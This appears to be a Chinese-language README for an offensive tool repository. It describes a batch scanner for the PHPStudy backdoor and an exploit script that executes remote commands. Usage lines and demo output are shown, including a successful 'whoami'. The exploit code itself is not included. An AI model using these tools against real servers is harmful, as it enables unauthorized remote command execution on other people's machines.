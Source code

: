 # PHPStudy_BackDoor

### phpstudy_backdoor_poc.py
	多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
	检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

##### 运行demo：
```
python phpstudy_backdoor_poc.py

[+] http://127.0.0.1 is vulnerable.
[-] http://192.168.1.1 is invulnerable.
[*] http://192.168.1.2 Looks Like Something Wrong.
[*] http://192.168.1.3 Looks Like Something Wrong.
```

### phpstudy_backdoor_exp.py
	漏洞利用脚本，操作精简。
	Usage: python3 phpstudy_backdoor_exp.py [url] [command]

##### 运行demo：
```
python phpstudy_backdoor_exp.py 127.0.0.1 whoami

[+] Command Execute Successful.
rabbitmask\rabbitmask
```

